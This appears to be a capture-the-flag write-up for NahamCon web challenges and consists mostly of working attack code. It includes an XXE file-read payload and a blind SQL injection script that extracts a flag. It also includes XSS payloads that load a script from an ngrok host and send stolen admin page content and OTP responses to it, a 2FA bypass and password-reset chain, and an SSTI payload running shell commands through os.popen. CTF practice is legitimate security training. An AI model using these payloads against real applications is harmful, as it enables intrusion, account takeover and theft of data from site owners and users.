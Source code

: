 # Jurassic Park
## Content Discovery
- robots.txt --> leak ``/ingen/flag.txt``
# EXtravagant
## XXE Injection
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```
# Personnel
## Regex bypass
```
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data "setting=2&name=.*" http://challenge.nahamcon.com:30349/
```
# Flaskmental Alchemist
## CVE-2019-7164: SQLALchemy (order_by) aka Blind SQLi 
```
#!python3
from curses import keyname
import requests,string
payload=string.printable
url= "http://challenge.nahamcon.com:31445/"
h={
    "Content-Type": "application/x-www-form-urlencoded"
}
flag=''
i=1
while True:
    for key in range(33,127):
        data={
            "search":"a",
            "order":f"(CASE WHEN (SELECT SUBSTR(flag,{i},1) FROM flag)=CHAR({key}) THEN symbol ELSE atomic_number END) DESC "
        }
        r=requests.post(url,headers=h,data=data)
        if int(r.text.index('23')) < int(r.text.index('110')):
            flag+=chr(key)
            print(f"[+] Found Char: {flag}")
            i+=1
            break
        else:
            print(f"[-] Trying {chr(key)}")
```
# Hacker Ts
## XSS
```
<script src="http://a739-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/exploit.js"></script>
```

``exploit.js``:
```
var r1 = new XMLHttpRequest();
r1.open('GET', "http://localhost:5000/admin", false);
r1.send()
var flag = r1.responseText;
var r2 = new XMLHttpRequest();
r2.open('GET', 'http://a739-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/?flag=' + encodeURI(btoa(flag)), true);
r2.send()
```
# Two For One
## XSS & Bypass 2FA
- Leak OTP code from admin -> generate QR with ``qr`` command (``pip3 install qrcode``)

``get_2fa.js``:
```
var r = new XMLHttpRequest();
r.open("POST", "http://challenge.nahamcon.com:32284/reset2fa");
r.withCredentials = true;
r.onload = () => {
    var r2 = new XMLHttpRequest;
    r2.open("GET", "http://0e0b-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/?flag=" + btoa(r.responseText));
    r2.send()
};
r.send();
```
- Reset admin password
```
var r = new XMLHttpRequest;
data = JSON.stringify({
    'password': '123',
    'password2': '123',
    'otp': '559483',
});
r.open("POST", "http://challenge.nahamcon.com:32284/reset_password", true)
r.onload = () => {
    var r2 = new XMLHttpRequest;
    r2.open("GET", "http://0e0b-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/?flag=" + btoa(r.responseText));
    r2.send();
};
r.setRequestHeader('Content-type', 'application/json');
r.send(data);
```
- login with that cred and get to get the flag
  
# Defcon
## SSTI (Bypass Bracket and RFC5322-compliant)
https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html

Payload:
```
name=qquang&email={{joiner.__init__.__globals__.os.popen⁽'cat${IFS}*'⁾.read⁽⁾}}@gmail.com
```

# Poller (Not solve)
Read [here](../../Note/django_picker_serialize.md)